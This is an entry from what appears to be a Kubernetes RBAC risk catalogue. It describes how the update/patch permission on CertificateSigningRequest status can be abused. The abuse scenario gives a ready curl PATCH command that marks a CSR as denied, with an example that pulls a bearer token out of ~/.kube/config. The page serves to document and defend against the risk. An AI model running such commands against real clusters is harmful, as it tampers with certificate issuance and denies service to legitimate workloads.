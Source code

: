 ```yaml
---
id: 1090
title: "Update CertificateSigningRequest Status (Tampering/DoS)"
description: "Allows updating the status of CertificateSigningRequests (CSRs). This could be abused to prematurely mark CSRs as 'Approved' or 'Denied', potentially bypassing approval workflows (if the approver is weak or misconfigured), blocking legitimate certificate issuance, or causing general confusion. Does not grant approval itself if an approver is required."
category: Tampering
risk_level: RiskLevelMedium
date: ""
---
```


## Overview

| Field         | Value                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------- |
| ID            | 1090                                                                                      |
| Name          | Update CertificateSigningRequest Status (Tampering/DoS)                                   |
| Risk Category | Tampering                                                                                 |
| Risk Level    | {{< risk Medium >}}                                                                       |
| Role Type     | ClusterRole                                                                               |
| API Groups    | certificates.k8s.io                                                                       |
| Resources     | certificatesigningrequests/status                                                         |
| Verbs         | update, patch                                                                             |
| Tags          | {{< tag "CertificateManagement" >}} {{< tag "DenialOfService" >}} {{< tag "Tampering" >}} |

## Description

Allows updating the status of CertificateSigningRequests (CSRs). This could be abused to prematurely mark CSRs as 'Approved' or 'Denied', potentially bypassing approval workflows (if the approver is weak or misconfigured), blocking legitimate certificate issuance, or causing general confusion. Does not grant approval itself if an approver is required.

## Abuse Scenarios

1. Patch a CertificateSigningRequest status to mark it as 'Denied'.

```bash {copy=true}
# Replace <kubernetes-api-server> with your API server address
# Replace <token> with your authentication token
curl -k -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -X PATCH \
  --data '{"status":{"conditions":[{"type":"Denied","status":"True","reason":"ManualDenial","message":"Denied by attacker"}]}}' \
  https://<kubernetes-api-server>/apis/certificates.k8s.io/v1/certificatesigningrequests/<csr-name>/status
# Example: curl -k -H "Authorization: Bearer $(cat ~/.kube/config | grep token: | awk '{print $2}')" -H "Content-Type: application/json" -X PATCH --data '{"status":{"conditions":[{"type":"Denied","status":"True","reason":"ManualDenial","message":"Denied by attacker"}]}}' https://127.0.0.1:6443/apis/certificates.k8s.io/v1/certificatesigningrequests/my-app-csr/status

```
